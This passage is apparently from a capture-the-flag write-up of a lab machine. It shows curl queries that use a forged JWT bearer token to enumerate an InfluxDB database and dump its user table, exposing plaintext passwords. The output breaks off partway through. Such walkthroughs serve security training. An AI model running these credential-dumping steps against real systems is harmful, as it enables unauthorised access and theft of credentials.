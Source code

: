 
#### Enumerate with Auth

Now that I’m authenticated, I can enumerate the DB. The query above showed two
DBs. `_internal` is part of the database itself, so I’ll start on `devzat`.
Tables are called measurements in Influx (I’ll move the token into a variable
for readability):

    
    
    patrick@devzat:~$ token="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjY2MDM0NzE2fQ.fd4oRbG8JP0j2uPtYP3dVUSAewNxKxbcYyjhcmYo1I"
    patrick@devzat:~$ curl -G --data-urlencode "q=SHOW Measurements" -d "db=devzat" localhost:8086/query?pretty=true -H "Authorization: Bearer $token"
    {
        "results": [
            {
                "statement_id": 0,
                "series": [
                    {
                        "name": "measurements",
                        "columns": [
                            "name"
                        ],
                        "values": [
                            [
                                "user"
                            ]
                        ]
                    }
                ]
            }
        ]
    }
    

Only one table, `user`.

I’ll dump all the data, making sure to put the table name in `"` which need to
be escaped:

    
    
    patrick@devzat:~$ curl -G --data-urlencode "q=select * from \"user\"" -d "db=devzat" localhost:8086/query?pretty=true -H "Authorization: Bearer $token"
    {
        "results": [
            {
                "statement_id": 0,
                "series": [
                    {
                        "name": "user",
                        "columns": [
                            "time",
                            "enabled",
                            "password",
                            "username"
                        ],
                        "values": [
                            [
                                "2021-06-22T20:04:16.313965493Z",
                                false,
                                "WillyWonka2021",
                                "wilhelm"
                            ],
                            [
                                "2021-06-22T20:04:16.320782034Z",
                                true,